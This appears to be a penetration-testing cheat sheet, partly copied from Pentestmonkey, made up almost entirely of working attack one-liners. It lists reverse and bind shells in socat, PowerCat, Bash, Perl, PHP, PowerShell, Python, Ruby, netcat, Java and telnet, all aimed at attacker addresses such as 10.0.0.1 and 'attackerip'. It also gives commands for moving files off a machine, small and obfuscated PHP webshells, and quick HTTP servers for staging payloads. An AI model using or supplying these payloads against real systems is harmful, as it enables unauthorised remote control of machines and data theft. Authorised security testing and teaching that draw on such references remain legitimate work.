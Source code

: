 # Sockets & Shellz
======
#### Ref
Many copied from <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey: Reverse Shell Cheat Sheet</a>

##  Socat
------
#### socat
```

socat file:`tty`,raw,echo=0 tcp-listen:4444 (listener)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4444 (client)
```
#### Connect to remote POP3 Server
socat - TCP4:10.1.1.1:110
#### Create a listener on port 443
sudo socat TCP4-LISTEN:443 STDOUT
#### Transfer a File
sudo socat TCP4-LISTEN:443,fork file:secret.txt
#### Download a File
socat TCP4:10.1.1.1:443 file:new_secrets.txt,create
#### Socat Listener
socat -d -d TCP4-LISTEN:443
#### Socat Reverse Shell
socat TCP4:10.1.1.1:443 EXEC:/bin/bash
#### Socat Encrypted Bind
socat OPENSSL-LISTEN:443,cert=priv.pem,verify=0,fork EXE C:/bin/bash
#### Socat Connect to Encrypted Bind
socat - OPENSSL:10.1.1.1:443,verify=0

## PowerCat
------
#### Import
Import-Module ./powercat.ps1
#### Send File to Remote Listener
powercat -c 10.1.1.11 -p 443 -i C:\tmp\file-to-transfer.ps1
#### Bind to Local Application (reverse)
powercat -c 10.1.1.1 -p 443 -e cmd.exe
#### Bind to Local Application (bind)
powercat -l -p 443 -e cmd.exe
#### Generate PowerShell Rev Shell
powercat -c 10.1.1.1 -p 443 -e cmd.exe -g > reverseshell.ps1
#### Generate Encoded PowerShell Rev Shell
+ powercat -c 10.1.1.1 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
+  powershell -E (Write-Host encodedreverseshell.ps1)

#### Bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
#### Bash
0<&196;exec 196<>/dev/tcp/<IP>/443; sh <&196 >&196 2>&196 
#### Perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#### PHP
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
#### Powershell (reverse)
+ $client = New-Object System.Net.Sockets.TCPClient("192.168.119.140",4444)
+  $stream = $client.GetStream()
+  [byte[]]$bytes = 0..65535|%{0}
+ while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
+ $sendback = (iex $data 2<&1 | Out-String )
+ $sendback2 = $sendback + "PS " + (pwd).Path + "> "
+ $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
+ $stream.Write($sendbyte,0,$sendbyte.Length)
+ $stream.Flush()}
+ $client.Close()

#### PowerShell (Bind)
+ $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443)
+  $listener.start()
+  $client = $listener.AcceptTcpClient()
+  $stream = $client.GetStream()
+  [byte[]]

#### Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#### Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
#### Ruby (non /bin/sh)
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
#### Ruby (Windows)
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
#### Netcat
nc -e /bin/sh 10.0.0.1 1234
#### OpenBSD Netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
#### Java
```

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```
#### Telnet
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
#### Telnet
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp

## Webshells
------
#### PHP (standard)
<?php echo system($_GET['h00p']);?>
#### PHP (tiniest)
<?=`{${~a0b8baab}[a0]}`;
#### PHP (conditional tiniest)
<?`$_GET[_]`;

## HTTP Servers
------
#### Python2
python -m SimpleHTTPServer 8888
#### Python3
python -m http.server --bind 0.0.0.0 8888
#### php
php -S 0.0.0.0:8888
#### Ruby
ruby -run -e httpd . -p 8888
#### Busybox
busybox httpd -f -p 8888
